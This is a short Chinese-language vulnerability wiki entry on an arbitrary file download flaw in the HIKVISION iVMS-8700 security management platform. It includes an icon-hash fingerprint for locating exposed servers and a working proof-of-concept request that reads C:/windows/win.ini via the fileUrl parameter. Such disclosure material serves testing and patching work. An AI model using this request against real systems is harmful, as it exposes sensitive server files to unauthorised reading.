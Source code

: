 # HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

<a-checkbox checked>HIKVISION iVMS-8700综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-911494769"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1637649859645-abee2ae8-c4e5-46a1-b50e-54f9b7e7c019.png)

验证POC， token 为 Url md5

```php
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![img](/assets/PeiQi-Wiki/img/1685329799397-00a22589-5e0f-43a3-a7c9-ae17687c5dbb.png)